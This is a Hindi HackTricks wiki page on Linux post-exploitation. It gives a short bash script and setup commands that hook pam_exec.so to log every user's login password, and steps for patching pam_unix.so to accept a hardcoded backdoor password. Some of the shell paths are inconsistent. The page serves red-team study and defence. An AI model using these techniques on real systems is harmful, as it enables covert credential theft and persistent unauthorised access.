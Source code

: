 # लिनक्स पोस्ट-एक्सप्लोइटेशन

{% hint style="success" %}
AWS हैकिंग सीखें और प्रैक्टिस करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, पीआर जमा करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github रेपो में।**

</details>
{% endhint %}

## PAM के साथ लॉगऑन पासवर्ड को स्निफ करें

चलिए एक PAM मॉड्यूल कॉन्फ़िगर करें ताकि हर उपयोगकर्ता जो लॉगिन करने के लिए उपयोग करता है, उस पासवर्ड को लॉग कर सकें। अगर आपको PAM क्या है इसका पता नहीं है तो देखें:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**अधिक विवरण के लिए [मूल पोस्ट](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/) देखें**। यह सिर्फ एक सारांश है:

**तकनीक अवलोकन:**
प्लगेबल प्रमाणीकरण मॉड्यूल (PAM) यूनिक्स-आधारित सिस्टम पर प्रमाणीकरण को प्रबंधित करने में लचीलाई प्रदान करते हैं। वे लॉगिन प्रक्रियाओं को अनुकूलित करके सुरक्षा को बढ़ा सकते हैं लेकिन गलत तरीके से उपयोग किए जाने पर खतरे भी उठा सकते हैं। यह सारांश एक तकनीक को उजागर करने के लिए PAM का उपयोग करके लॉगिन क्रेडेंशियल को कैप्चर करने की विधि को रूपांतरित करता है, साथ ही संशोधन रणनीतियों को।

**क्रेडेंशियल को कैप्चर करना:**
- `toomanysecrets.sh` नामक एक बैश स्क्रिप्ट तैयार किया गया है जो लॉगिन प्रयासों को लॉग करने के लिए बनाया गया है, जिसमें तारीख, उपयोगकर्ता नाम (`$PAM_USER`), पासवर्ड (stdin के माध्यम से), और रिमोट होस्ट IP (`$PAM_RHOST`) को `/var/log/toomanysecrets.log` में कैप्चर किया जाता है।
- स्क्रिप्ट को क्रियाशील बनाया जाता है और `pam_exec.so` मॉड्यूल का उपयोग करके PAM कॉन्फ़िगरेशन (`common-auth`) में शामिल किया जाता है, जिसमें स्क्रिप्ट को चुपचाप चलाने और प्रमाणीकरण टोकन को स्क्रिप्ट को उजागर करने के विकल्प दिए जाते हैं।
- यह दृष्टिकोण दिखाता है कि कैसे एक कंप्रोमाइज़्ड लिनक्स होस्ट को गुप्त रूप से क्रेडेंशियल को लॉग करने के लिए उपयोग किया जा सकता है।
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### PAM में बैकडोरिंग

**अधिक विवरण के लिए [मूल पोस्ट](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9) देखें**। यह केवल एक सारांश है:

प्लगेबल प्रमाणीकरण मॉड्यूल (PAM) एक सिस्टम है जो लिनक्स के तहत उपयोगकर्ता प्रमाणीकरण के लिए उपयोग किया जाता है। यह तीन मुख्य अवधारणाओं पर काम करता है: **उपयोगकर्ता नाम**, **पासवर्ड**, और **सेवा**। प्रत्येक सेवा के लिए कॉन्फ़िगरेशन फ़ाइलें `/etc/pam.d/` निर्देशिका में स्थित हैं, जहां साझा लाइब्रेरी प्रमाणीकरण का संचालन करती है।

**उद्देश्य**: PAM को संशोधित करें ताकि एक विशिष्ट पासवर्ड के साथ प्रमाणीकरण संभव हो, वास्तविक उपयोगकर्ता पासवर्ड को छोड़कर। यह विशेष रूप से `common-auth` फ़ाइल द्वारा उपयोग की जाने वाली `pam_unix.so` साझा लाइब्रेरी पर ध्यान केंद्रित है, जो पासवर्ड सत्यापन के लिए लगभग सभी सेवाओं द्वारा समाहित किया जाता है।

### `pam_unix.so` को संशोधित करने के लिए चरण:

1. **`common-auth` फ़ाइल में प्रमाणीकरण निर्देशिका का पता लगाएं**:
- उपयोगकर्ता के पासवर्ड की जांच के लिए जिम्मेदार लाइन `pam_unix.so` को बुलाती है।
2. **स्रोत को संशोधित करें**:
- `pam_unix_auth.c` स्रोत फ़ाइल में एक शर्तमय वक्तव्य जोड़ें जो यदि एक पूर्वनिर्धारित पासवर्ड का उपयोग किया जाता है, तो पहुंच देता है, अन्यथा, यह सामान्य प्रमाणीकरण प्रक्रिया के साथ आगे बढ़ता है।
3. **पुनः कंपाइल और पुनः रखें** संशोधित `pam_unix.so` लाइब्रेरी को उचित निर्देशिका में।
4. **परीक्षण**:
- पूर्वनिर्धारित पासवर्ड के साथ विभिन्न सेवाओं (लॉगिन, ssh, sudo, su, स्क्रीनसेवर) में पहुंच प्रदान की जाती है, जबकि सामान्य प्रमाणीकरण प्रक्रियाएँ प्रभावित नहीं होती हैं।

{% hint style="info" %}
आप इस प्रक्रिया को [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor) के साथ स्वचालित कर सकते हैं।
{% endhint %}
